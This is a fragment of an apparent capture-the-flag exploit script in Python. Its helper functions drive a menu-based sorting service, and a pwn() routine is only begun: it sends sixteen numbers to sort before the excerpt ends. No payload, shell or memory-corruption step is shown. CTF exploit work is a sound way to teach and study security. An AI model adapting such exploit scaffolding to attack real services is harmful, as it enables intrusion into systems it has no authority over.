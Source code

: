 ```
       io.read_until("_CMD_$ ")
       io.writeline("history")
 
def t_reload(io, t_id):
       io.read_until("_CMD_$ ")
       io.writeline("reload")
       io.read_until("Reload history ID: ")
       io.writeline(str(t_id))
 
def clear(io):
       io.read_until("_CMD_$ ")
       io.writeline("clear")
 
def sort(io, seq):
       io.read_until("_CMD_$ ")
       io.writeline("sort")
       io.read_until("How many numbers do you want to sort: ")
       io.writeline(str(len(seq)))
       for item in seq:
              io.read_until("Enter a number: ")
              io.writeline(item)
 
def sort2(io, seq, count):
       io.read_until("_CMD_$ ")
       io.writeline("sort")
       io.read_until("How many numbers do you want to sort: ")
       io.writeline(str(count))
       for item in seq:
              io.read_until("Enter a number: ")
              io.writeline(item)
 
def t_exit(io):
       io.read_until("_CMD_$ ")
       io.writeline("exit")
 
def sub_query(io, index):
       io.read_until("Choose: ")
       io.writeline("1")
       io.read_until("Query index: ")
       io.writeline(str(index))
 
def sub_update(io, index, number):
       io.read_until("Choose: ")
       io.writeline("2")
       io.read_until("Update index: ")
       io.writeline(str(index))
       io.read_until("Update number: ")
       io.writeline(str(number))
 
def sub_sort(io):
       io.read_until("Choose: ")
       io.writeline("3")
 
def sub_quit(io):
       io.read_until("Choose: ")
       io.writeline("7")
 
def pwn(io):
 
       seq = ["8"] * 16
       sort(io, seq)
       sub_sort(io)
 
```